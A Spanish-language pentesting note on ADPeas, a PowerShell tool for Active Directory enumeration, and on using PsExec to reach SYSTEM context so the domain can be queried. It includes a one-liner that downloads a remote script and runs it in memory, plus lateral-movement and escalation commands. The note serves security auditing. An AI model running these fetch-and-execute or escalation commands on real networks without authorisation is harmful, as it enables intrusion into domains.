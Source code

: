 # ADPeas

Tags: #AD #ADPeas #Powershell 

ADPeas es una herramienta en PowerShell diseñada para enumerar y analizar entornos de Active Directory, facilitando la identificación de configuraciones inseguras, relaciones de confianza, permisos excesivos y posibles vectores de escalación de privilegios. Es ampliamente utilizada en auditorías y pruebas de seguridad por su capacidad para automatizar la recolección de información clave y detectar vulnerabilidades en dominios Windows.

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada
```

## Saliendo del contexto de usuario local

```bash 
# Esto se hace cuando el usuario local no puede interactuar con el dominio y por lo tanto no podría ejecutar ADPeas u otras herramientas en Powershell para enumerar el dominio. 


PS C:\Windows\system32> net group /domain         # Enumerar el dominio 
The request will be processed at a domain controller for domain domain.com.   # Sale este error 

System error 5 has occurred.

Access is denied.
```

* [PsExec64.exe](https://github.com/Spartan-Cybersecurity/CPAD-Tools)

```bash 
❯ .\PsExec64.exe -i -s cmd.exe       # Emigrar en una sesion RDP al usuario 'NT AUTHORITY SYSTEM' para asi poder interactura con el dominio. 
```

* [Intro a sysinternals](https://books.spartan-cybersec.com/cpad/introduccion-a-la-evasion-de-defensas/introduccion-a-sysinternals)

```bash 
'PsExec' es una herramienta ligada a la suite de Sysinternals de Microsoft y permite la ejecución de procesos en sistemas remotos. Es particularmente útil para administradores de sistemas, pero también es conocido por ser utilizado por atacantes o pentesters para moverse lateralmente a través de una red.

1. Contexto de Autenticación: Cuando interactúas con Directorio Activo (AD), lo haces a través de un contexto de autenticación, que esencialmente dicta qué derechos y permisos tiene el usuario o proceso actual. Si estás ejecutando comandos en una máquina comprometida con un contexto local (por ejemplo, una shell reversa que no tiene un token de autenticación para AD), es posible que no puedas consultar o interactuar con el AD aunque estés en un dominio.
    
2. Cambiar Contexto: Usando 'PsExec', puedes ejecutar comandos o programas en el contexto de otro usuario, o incluso en el contexto de SYSTEM si tienes los permisos necesarios. Al hacerlo, estás esencialmente "cambiando" tu contexto de autenticación, lo que puede darte los derechos necesarios para interactuar con AD.

Notas:
	1. Aunque no es _estrictamente necesario_ usar 'PsExec' para salir del contexto de usuario local y enumerar AD (hay otras técnicas y herramientas que pueden lograr lo mismo), 'PsExec' es una herramienta versátil que permite a los atacantes y pentesters cambiar de contexto de autenticación y moverse lateralmente a través de una red. Por lo tanto, es una herramienta útil en escenarios donde se necesita ampliar el alcance o cambiar el contexto para interactuar con AD.
```

